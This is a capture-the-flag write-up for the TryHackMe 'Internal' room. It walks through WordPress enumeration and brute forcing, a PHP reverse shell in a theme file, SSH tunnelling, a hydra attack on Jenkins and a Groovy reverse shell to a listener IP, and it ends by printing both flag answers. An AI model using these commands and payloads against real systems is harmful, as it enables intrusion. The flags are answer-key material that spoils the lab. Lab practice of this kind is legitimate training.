



# [Internal](https://tryhackme.com/r/room/internal)


[Internal](https://tryhackme.com/r/room/internal) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* WPScan
* Tuneling
* Hydra

## Task 1 - Pre-engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Ensure that you modify your hosts file to reflect internal.thm
* Any tools or techniques are permitted in this engagement
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.


Note - this room can be completed without Metasploit

**Writeups will not be accepted for this room.**

## Answer the questions below

* I understand the scope of work

## Task 2 - Deploy and Engage the Client Environment

Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation.

### Enumeration & Exploitation

* Scan open port with Nmap

	```
	nmap $IP -p- --script vuln | tee nmap-scan.txt
	```

	

* Scan direcotry with Gobuster

	```
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP -t 50 | tee gobuster.txt
	```

	

	We found directory `/blog`

* Try to open `http://$IP/blog`

	

	We can see on the title Internal link to `http://internal.thm/blog`, try to open web page again.

	

* Edit `/etc/hosts`, add target IP as `internal.thm`

	

* Scan wordpress with wpscan

	```
	wpscan --url http://internal.thm/blog -e u | tee wpscan.txt
	```

	

	We find username `admin`

* Try to brute force 

	```
	wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
	```

	

	We got password `admin`

* Try to login `http://internal.thm/blog/wp-login.php`

	

	

	

* In the web interface, go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a PHP reverse shell

	

* Setup listener on attacke machine

	```
	nc -nvlp 8888
	```

	

* Browsing to the location of this 404 page to get reverse shell

	```
	http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	```

	

* Now we should upgrade our shell to make it more stable with Pyhton

	```
	python -c "import pty; pty.spawn('/bin/bash')"
	```

	

* After some more searching, I found a interesting file called wp-save.txt located in the /opt directory. Opening this file, and we got the credential

	

* Change user to `aubreanna`, and get the `user.txt`

	

* Try to open another file `jenkins.txt`

	

	It says that an internal Jenkins service is running

	```
	netstat -tan | grep 8080
	```

	

	We confirm that the service is only available to localhost

* Use SSH tunneling to connect to this remote service and make it accessible on our attacker machine

	```
	ssh -L 4444:172.17.0.2:8080 aubreanna@$IP
	```

	

* Open `localhost:4444` on browser

	

* Enable Web Developer Tools, try to login with credential `admin:password`, and request resend

	

* Brute force login with hydra

	```
	hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
	```

	

* Login Jenkins, we can execute commands and exploit this to establish a reverse shell. 

	

* Setup new listener on port 5555

	

* Add script under ‘Manage Jenkins’ > ‘Tools and Actions,’ there is a ‘Script Console’ and click run

	```
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.127.223/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
	```

	

* Get the shell and root credential

	![root-cred]

* Login ssh with root credential and get the `root.txt`

	

### Answer the questions below

* User.txt Flag
	
	`THM{int3rna1_fl4g_1}`

	

* Root.txt Flag

	`THM{d0ck3r_d3str0y3r}`

	